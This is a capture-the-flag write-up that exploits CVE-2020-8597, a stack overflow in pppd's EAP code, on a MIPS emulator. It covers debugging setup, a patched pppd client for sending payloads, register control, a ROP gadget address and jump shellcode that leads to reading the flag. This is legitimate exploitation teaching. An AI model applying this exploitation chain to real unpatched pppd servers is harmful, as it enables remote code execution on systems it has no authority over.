


## Overview

In this challenge, we are required to exploit a MIPS virtual machine running [pppd](https://en.wikipedia.org/wiki/Point-to-Point_Protocol_daemon) by using a recently-found vulnerability.

 We are given `vmlinux`, `rootfs.img` and a `qemu` startup script `start.sh`.

## Bug

[CVE-2020-8597](https://nvd.nist.gov/vuln/detail/CVE-2020-8597) is a stack overflow vulnerability found in `pppd`(`2.4.2` ~ `2.4.8`), it triggers when user sends an oversize hostname to the server .

In  [eap_request](https://github.com/paulusmack/ppp/blob/ppp-2.4.7/pppd/eap.c#0) and [eap_response](https://github.com/paulusmack/ppp/blob/ppp-2.4.7/pppd/eap.c#L1719) function, `rhostname` is a 256-bytes-long buffer allocated in stack. Due to an [incorrect size check](https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426) in `EAPT_MD5CHAP` branch, hostname longer than 256 bytes will be allowed to being copied into `rhostname`, thus leading to stack overflow.

```c
case EAPT_MD5CHAP:

[......]

  /* Not so likely to happen. */
  if (vallen >= len + sizeof (rhostname)) {           // Incorrect size check
        dbglog("EAP: trimming really long peer name down");
        BCOPY(inp + vallen, rhostname, sizeof (rhostname) - 1);
        rhostname[sizeof (rhostname) - 1] = '\0';
  } else {
        BCOPY(inp + vallen, rhostname, len - vallen); // Stack overflow
        rhostname[len - vallen] = '\0';
  }
```

## Debugging

Before the exploitation, we need to find a way to debug `pppd`. Since there is no MIPS hardware I have to run and debug it in the `qemu` emulator.

In `qemu` it's easy to redirect guest device such as TCP connections and tty devices to the host by adding few options. My idea is to start a `gdbserver` in the guest and redirect `gdbserver` debug TCP port and `pppd` tty to the host.

Step 1: unpack `rootfs.img` with `cpio`. Place `gdbserver` in the root directory, you can download a statically-built MIPS `gdbserver` binary file from [here](https://github.com/rapid7/embedded-tools/blob/master/binaries/gdbserver/gdbserver.mipsle).

Step 2: edit `etc/inittab`:

```sh
# Put a getty on the serial port
#ttyS0::respawn:/sbin/getty -L  ttyS0 0 vt100 # GENERIC_SERIAL
#ttyS0::sysinit:/pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
# Bring up network device
::sysinit:/sbin/ifup -a
# Launch gdbserver
ttyS0::sysinit:/gdbserver :1234 /pppd /dev/ttyS1 auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100

# Stuff to do for the 3-finger salute
```

`gdbserver` will be launched on TCP port `1234` and start `pppd` when a connection established. Then `pppd` will connect to the tty device `/dev/ttyS1` for sending and receiving packets.


Step 3: add these `qemu` options to `start.sh`:

```sh
-net user,hostfwd=tcp::1234-:1234 -net nic -serial stdio -serial pty
```

`qemu` will redirect TCP port `1234` and `/dev/ttyS1` from the guest to the host. So we can communicate with `pppd` via the pty device created by `qemu`.

Step 4: repack `rootfs.img` and run `start.sh`:

```
qemu-system-mipsel: -serial pty: char device redirected to /dev/pts/1 (label serial1)

[ Some boot messages... ]

Process /pppd created; pid = 112
Listening on port 1234
```

If everything goes well, `qemu` will print out the pty device path, `gdbserver` in the guest will launch with the messages shown above. Now you can start debugging `pppd` using `gdb-multiarch`, set breakpoints and control the process:

```
gdb-multiarch -ex 'set architecture mips'   \
              -ex 'target remote :1234'     \
              -ex 'file rootfs/pppd'        \
              -ex 'break *0x42F9A8'         \
              -ex 'continue'
```

***

The simplest way to interactive with the remote `pppd` is to run a locally-installed `pppd` with the following options (`/dev/pts/1` is the pty device created by `qemu`):

```
sudo pppd noauth local defaultroute debug nodetach /dev/pts/1 user admin password 1234568
```
We need to send packets with our custom payload during the exploitation, but it costs too much time for me to study [Point to Point Protocol(PPP)](https://en.wikipedia.org/wiki/Point-to-Point_Protocol) and construct packets manually especially in the time-limited CTF contest. So I decide to patch `pppd`.

After studying [the source code](https://github.com/paulusmack/ppp/), I find [the line](https://github.com/paulusmack/ppp/blob/ppp-2.4.7/pppd/eap.c#L1455) where `eap_request` function sends hostname in the `EAPT_MD5CHAP` branch.

```c
eap_chap_response(esp, id, hash, esp->es_client.ea_name,
    esp->es_client.ea_namelen);
```

Modify the code to read the payload from a local file `/tmp/payload`.

```c
char payload[1024] = {0};
FILE *fp = fopen("/tmp/sc", "r");
fread(payload, 1, 1024, fp);
fclose(fp);

eap_chap_response(esp, id, hash, payload, 1024);
```

Save and compile the code, then rename the patched program to `pppd-payload` for later use.

## Exploitation

Write a 1024-bytes-long cyclic string to `/tmp/sc` as payload:

```sh
$ python3 -c 'from pwn import*; open("/tmp/sc", "wb").write(cyclic(1024))'
$ cat /tmp/sc
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaak
```

Now start and attach the remote `pppd` using `gdb`, then run patched `pppd` in local machine:

```
sudo ./pppd-payload noauth local defaultroute debug nodetach /dev/pts/1 user admin password 1234568
```
Soon the remote `pppd` crashes with a segmentation fault. From `gdb` we can see our payload in the stack.




After exploring the crash, I find that we can control `s0`~`s4` register and `ra` register which stores return address through the stack overflow.

```
0x42f9a8 <eap_response+440>:	lw	ra,700(sp)
0x42f9ac <eap_response+444>:	lw	s4,696(sp)
0x42f9b0 <eap_response+448>:	lw	s3,692(sp)
0x42f9b4 <eap_response+452>:	lw	s2,688(sp)
0x42f9b8 <eap_response+456>:	lw	s1,684(sp)
0x42f9bc <eap_response+460>:	lw	s0,680(sp)
0x42f9c0 <eap_response+464>:	jr	ra
```

A global struct called `sigjmp` is also found which holds a pointer `__sp` (located at `0x45C71C`) pointing to a fixed position of our payload.



Since the binary has no NX or ASLR enabled, I come up with a idea that execute the shellcode in the payload by jumping to the address pointed by `__sp` pointer. So I need a gadget that can load and jump to the address from a pointer.

Luckily, I finally find the satisfied gadget (located at `0x0043E310`) by `ROPgadget`: It simply loads a word-size value from the address stored in `s0` register and jumps to it.

```
0x43e310 <__libc_csu_init+96>:	lw	t9,0(s0)
0x43e314 <__libc_csu_init+100>:	addiu	s1,s1,1
0x43e318 <__libc_csu_init+104>:	move	a2,s5
0x43e31c <__libc_csu_init+108>:	move	a1,s4
0x43e320 <__libc_csu_init+112>:	jalr	t9
```

By setting `$s0 = 0x45C71C` and `$ra = 0x0043E310`, we can execute arbitrary shellcode in the payload... But wait! We have only 32 bytes space in the position pointed by `__sp` pointer. It's not even enough for a simple cat-flag shellcode. To solve this, I divide the shellcode into two part: jump shellcode and getflag shellcode.

The jump shellcode just jumps to the getflag shellcode (only 16 bytes long):

```
lw  $t0, ($s0)  /* Load jump shellcode address from __sp pointer */
li  $t1, 0x268
sub $t9, $t0, $t1
j   $t9 /* jump to getflag shellcode */
```

The getflag shellcode opens `/flag` fd and writes the flag to `ppp_fd` by `sendfile` syscall.  `ppp_fd` (stored at `0x45B1F0`) is the file descriptor that `pppd` used to communicate with the client via tty, so we can receive the flag by capturing the network traffic between local machine and remote server. Note that it's useless to send flag to stdout (fd `0`) because we can't access any other streams except tty.

The complete shellcode are available on [payload.py](payload.py).

## Get flag

Run `exp.sh`to exploit the remote server and get flag (root privileges required). It runs `socat` to convert socket stream to the remote server to pty device, and `tcpdump` to capture the network traffic.

`pppd-payload` is statically linked so you don't need to install other dependencies. I also offer a [patch](pppd-payload.patch) so you can patch and build you own `pppd-payload` if you don't trust mine (Reminder: Don't run any binary files provided by untrusted person especially those need root privileges to run).

Flag: De1CTF{PpPd_5tackOverf1ow_1s_1ntersT1ng}

## Reference

[paulusmack/ppp at ppp-2.4.7](https://github.com/paulusmack/ppp/tree/ppp-2.4.7)

[一个存在了17年的漏洞—pppd 栈溢出（cve-2020-8597）漏洞分析](https://www.anquanke.com/post/id/200639)
